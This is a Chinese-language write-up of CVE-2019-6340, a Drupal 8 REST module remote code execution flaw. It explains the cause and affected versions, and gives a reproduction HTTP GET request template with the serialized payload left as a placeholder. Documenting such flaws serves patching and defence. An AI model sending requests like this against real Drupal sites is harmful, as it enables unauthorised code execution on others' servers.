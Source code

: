 # （CVE-2019-6340）Drupal 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2896](https://www.zhihuifly.com/t/topic/2896)

# （CVE-2019-6340）Drupal 远程代码执行漏洞

## 一、漏洞简介

Drupal Core存在一个远程代码执行漏洞。此次，它的目标是Drupal 8的REST模块，默认情况下，该模块是禁用了，但是该模块在大多数情况下会被用户使用。**该漏洞本质上是由于用户使用Drupal Core RESTful Web Services (rest)时，某些字段类型无法正确清理非格式源中的数据。在某些情况下，这可能导致任意PHP代码执行。**此外，我们发现针对该漏洞提出的即时补救措施是不完整的，这可能会导致一种错误的安全感。**用户可能会根据官方的说明禁用掉RESTful Web Services 中的POST/PATCH方法，但是事实上GET方法也能在无任何权限的情况下执行远程代码，所以用户必须执行Drupal的最新的安全更新或者禁用RESTful Web Services服务，否则网站依旧处于风险当中。**

## 二、漏洞影响

Drupal 8.6.x < 8.6.10

Drupal 8.5.x < 8.5.11

## 三、复现过程

> 触发`unserialize()`

```
GET /drupal-8.6.9/node/1?_format=hal_json HTTP/1.1
Host: 192.168.1.25
Content-Type: application/hal+json
Content-Length: 642 `{

“link”: [

{

“value”: “link”,

“options”: “<SERIALIZED_CONTENT>”

}

],

“_links”: {

“type”: {

“href”: “[http://192.168.1.25/drupal-8.6.9/rest/type/shortcut/default](http://192.168.1.25/drupal-8.6.9/rest/type/shortcut/default)”

}

}

}` 
```
